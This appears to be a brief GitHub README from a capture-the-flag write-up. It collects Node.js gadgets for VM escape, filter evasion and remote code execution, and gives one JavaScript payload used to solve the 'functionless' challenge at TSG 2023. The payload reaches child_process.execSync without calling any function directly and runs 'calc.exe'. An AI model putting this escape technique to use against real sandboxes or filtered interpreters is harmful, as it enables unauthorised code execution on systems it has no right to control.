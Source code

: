 # Nodejs-gadget
Nodejs gadget for escaping VM, fooling syntax parser, filter evasion, RCE, ....

### Used to solve `functionless` in TSG 2023
```js
toString.constructor.prototype.toString=toString.constructor.prototype.call;
a = ["process.mainModule.require\u0028'child_process'\u0029.execSync\u0028'calc.exe'\u0029","a"];
toString.constructor instanceof {[Symbol.hasInstance]:a.sort, __proto__: a};
```
